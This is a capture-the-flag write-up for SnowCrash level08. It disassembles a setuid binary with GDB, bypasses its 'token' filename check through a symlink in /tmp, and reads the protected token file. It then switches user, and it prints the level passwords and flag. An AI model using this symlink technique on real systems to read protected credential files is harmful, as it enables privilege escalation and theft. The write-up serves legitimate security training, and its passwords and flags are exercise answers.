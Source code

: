 # level08

- We login as user level08.
```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File level08.c:
int main(int, char **, char **);

Non-debugging symbols:
0x080483b4  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048554 <+0>:     push   %ebp
   0x08048555 <+1>:     mov    %esp,%ebp
   0x08048557 <+3>:     and    $0xfffffff0,%esp
   0x0804855a <+6>:     sub    $0x430,%esp
   0x08048560 <+12>:    mov    0xc(%ebp),%eax
   0x08048563 <+15>:    mov    %eax,0x1c(%esp)
   0x08048567 <+19>:    mov    0x10(%ebp),%eax
   0x0804856a <+22>:    mov    %eax,0x18(%esp)
   0x0804856e <+26>:    mov    %gs:0x14,%eax
   0x08048574 <+32>:    mov    %eax,0x42c(%esp)
   0x0804857b <+39>:    xor    %eax,%eax
   0x0804857d <+41>:    cmpl   $0x1,0x8(%ebp)
   0x08048581 <+45>:    jne    0x80485a6 <main+82>
   0x08048583 <+47>:    mov    0x1c(%esp),%eax
   0x08048587 <+51>:    mov    (%eax),%edx
   0x08048589 <+53>:    mov    $0x8048780,%eax
   0x0804858e <+58>:    mov    %edx,0x4(%esp)
   0x08048592 <+62>:    mov    %eax,(%esp)
   0x08048595 <+65>:    call   0x8048420 <printf@plt>
   0x0804859a <+70>:    movl   $0x1,(%esp)
   0x080485a1 <+77>:    call   0x8048460 <exit@plt>
   0x080485a6 <+82>:    mov    0x1c(%esp),%eax
   0x080485aa <+86>:    add    $0x4,%eax
   0x080485ad <+89>:    mov    (%eax),%eax
   0x080485af <+91>:    movl   $0x8048793,0x4(%esp)
   0x080485b7 <+99>:    mov    %eax,(%esp)
   0x080485ba <+102>:   call   0x8048400 <strstr@plt>
   0x080485bf <+107>:   test   %eax,%eax
   0x080485c1 <+109>:   je     0x80485e9 <main+149>
   0x080485c3 <+111>:   mov    0x1c(%esp),%eax
   0x080485c7 <+115>:   add    $0x4,%eax
   0x080485ca <+118>:   mov    (%eax),%edx
   0x080485cc <+120>:   mov    $0x8048799,%eax
   0x080485d1 <+125>:   mov    %edx,0x4(%esp)
   0x080485d5 <+129>:   mov    %eax,(%esp)
   0x080485d8 <+132>:   call   0x8048420 <printf@plt>
   0x080485dd <+137>:   movl   $0x1,(%esp)
   0x080485e4 <+144>:   call   0x8048460 <exit@plt>
   0x080485e9 <+149>:   mov    0x1c(%esp),%eax
   0x080485ed <+153>:   add    $0x4,%eax
   0x080485f0 <+156>:   mov    (%eax),%eax
   0x080485f2 <+158>:   movl   $0x0,0x4(%esp)
   0x080485fa <+166>:   mov    %eax,(%esp)
   0x080485fd <+169>:   call   0x8048470 <open@plt>
   0x08048602 <+174>:   mov    %eax,0x24(%esp)
   0x08048606 <+178>:   cmpl   $0xffffffff,0x24(%esp)
   0x0804860b <+183>:   jne    0x804862e <main+218>
   0x0804860d <+185>:   mov    0x1c(%esp),%eax
   0x08048611 <+189>:   add    $0x4,%eax
   0x08048614 <+192>:   mov    (%eax),%eax
   0x08048616 <+194>:   mov    %eax,0x8(%esp)
   0x0804861a <+198>:   movl   $0x80487b2,0x4(%esp)
   0x08048622 <+206>:   movl   $0x1,(%esp)
   0x08048629 <+213>:   call   0x8048440 <err@plt>
   0x0804862e <+218>:   movl   $0x400,0x8(%esp)
   0x08048636 <+226>:   lea    0x2c(%esp),%eax
   0x0804863a <+230>:   mov    %eax,0x4(%esp)
   0x0804863e <+234>:   mov    0x24(%esp),%eax
   0x08048642 <+238>:   mov    %eax,(%esp)
   0x08048645 <+241>:   call   0x8048410 <read@plt>
   0x0804864a <+246>:   mov    %eax,0x28(%esp)
   0x0804864e <+250>:   cmpl   $0xffffffff,0x28(%esp)
   0x08048653 <+255>:   jne    0x8048671 <main+285>
   0x08048655 <+257>:   mov    0x24(%esp),%eax
   0x08048659 <+261>:   mov    %eax,0x8(%esp)
   0x0804865d <+265>:   movl   $0x80487c4,0x4(%esp)
   0x08048665 <+273>:   movl   $0x1,(%esp)
   0x0804866c <+280>:   call   0x8048440 <err@plt>
   0x08048671 <+285>:   mov    0x28(%esp),%eax
   0x08048675 <+289>:   mov    %eax,0x8(%esp)
   0x08048679 <+293>:   lea    0x2c(%esp),%eax
   0x0804867d <+297>:   mov    %eax,0x4(%esp)
   0x08048681 <+301>:   movl   $0x1,(%esp)
   0x08048688 <+308>:   call   0x8048490 <write@plt>
   0x0804868d <+313>:   mov    0x42c(%esp),%edx
   0x08048694 <+320>:   xor    %gs:0x14,%edx
   0x0804869b <+327>:   je     0x80486a2 <main+334>
   0x0804869d <+329>:   call   0x8048430 <__stack_chk_fail@plt>
   0x080486a2 <+334>:   leave
   0x080486a3 <+335>:   ret
End of assembler dump.
```


- We can see that after moving certain values onto the stack the program compares the constant `0x1` with the value located at `0x8(%ebp)`. If this comparison results in equality, the program will call `<printf@plt>` with the value contained in memory address `0x8048799`, and then `<exit@plt>`.
```
(gdb) x/s 0x8048780
0x8048780:       "%s [file to read]\n"
```


- It can be assumed that this binary results from a program written in C. The latter compares `argc` to the constant `0x1`, so `if argc == 1` (if the program was launched without arguments), it displays `./level08 [file to read]` and exits.


- Then, we can see that `<strstr@plt>` is called to search within the string located in the `eax` register for the string that starts at address `0x8048793`.
```
(gdb) x/s 0x8048793
0x8048793:       "token"
```


- Thus, if the string `token` is found within the string contained in the `eax` register (likely the first parameter given to the program), it will `<printf@plt>` the string that starts at address `0x8048799`, and then `<exit@plt>`. Otherwise, the program will call `<open@plt>`, followed by `<read@plt>` and `<write@plt>`.
```
(gdb) x/s 0x8048799
0x8048799:       "You may not access '%s'\n"
```


- So, the program checks its first parameter, if it contains the string `token`, `You may not access 'token'` is displayed, then it `<exit@plt>`.
Otherwise, it will attempt to open a file named with the value of its first parameter, and it will `<write@plt>` the contents of that file to the standard output with, so:
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/exploit
```

```
level08@SnowCrash:~$ ./level08 /tmp/exploit
quif5eloekouj29ke0vouxean
```

```
level08@SnowCrash:~$ su flag08
Password:quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
```

```
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

```
flag08@SnowCrash:~$ su level09
Password:25749xKZ8L7DkSCwJkT9dyv6f
level09@SnowCrash:~$
```